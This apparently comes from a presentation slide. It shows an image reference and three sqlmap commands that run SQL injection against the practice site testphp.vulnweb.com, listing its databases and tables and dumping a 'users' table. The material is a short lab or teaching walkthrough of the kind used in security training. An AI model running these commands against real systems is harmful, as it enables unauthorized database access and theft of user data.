

Use SQLMAP:
sqlmap -u “http://testphp.vulnweb.com/artists.php?artist=1 “ –dbs
sqlmap -u “http://testphp.vulnweb.com/artists.php?artist=1” -D acuart –tables
sqlmap -u “http://testphp.vulnweb.com/artists.php?artist=1” -D acuart -T users –dump